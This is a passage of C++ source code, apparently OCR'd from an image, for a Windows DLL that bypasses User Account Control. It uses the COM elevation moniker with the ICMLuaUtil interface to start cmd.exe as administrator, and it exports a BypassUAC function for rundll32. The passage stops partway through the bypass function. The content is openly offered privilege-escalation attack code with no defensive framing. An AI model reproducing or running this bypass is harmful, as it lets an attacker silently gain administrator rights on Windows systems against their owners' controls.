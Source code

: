     
    // main logic of dll
    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    
    // import func called by rundll32.exe
    void CALLBACK BypassUAC(HWND hWnd, HINSTANCE hInstance, LPSTR lpszCmdLine, int iCmdShow)
    {
    	CMLuaUtilBypassUAC((LPWSTR)L"C:\Windows\System32\cmd.exe");
    }
    
    HRESULT CoCreateInstanceAsAdmin(HWND hWnd, REFCLSID rclsid, REFIID riid, PVOID* ppVoid)
    {
    	BIND_OPTS3 bo;
    	WCHAR wszCLSID[MAX_PATH] = { 0 };
    	WCHAR wszMonikerName[MAX_PATH] = { 0 };
    	HRESULT hr = 0;
    
    	// init env of COM
    	::CoInitialize(NULL);
    
    	// construct string
    	::StringFromGUID2(rclsid, wszCLSID, (sizeof(wszCLSID) / sizeof(wszCLSID[0])));
    	hr = ::StringCchPrintfW(wszMonikerName, (sizeof(wszMonikerName) / sizeof(wszMonikerName[0])), L"Elevation:Administrator!new:%s", wszCLSID);
    	if (FAILED(hr))
    	{
    		return hr;
    	}
    
    	// set BIND_OPTS3
    	::RtlZeroMemory(&bo, sizeof(bo));
    	bo.cbStruct = sizeof(bo);
    	bo.hwnd = hWnd;
    	bo.dwClassContext = CLSCTX_LOCAL_SERVER;
    
    	// create get name object and get COM object
    	hr = ::CoGetObject(wszMonikerName, &bo, riid, ppVoid);
    	return hr;
    }
    
    BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
    {
    	HRESULT hr = 0;
    	CLSID clsidICMLuaUtil = { 0 };
    	IID iidICMLuaUtil = { 0 };
    	ICMLuaUtil* CMLuaUtil = NULL;
    	BOOL bRet = FALSE;
    